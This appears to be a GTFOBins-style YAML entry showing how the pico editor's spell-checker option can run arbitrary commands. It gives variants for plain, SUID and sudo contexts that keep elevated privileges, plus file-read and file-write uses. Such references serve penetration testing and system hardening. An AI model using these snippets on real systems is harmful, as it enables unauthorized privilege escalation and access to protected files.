 ```yaml
---
functions:
  execute-non-interactive:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo pico -s $TF /etc/hosts
        ^T
---
```

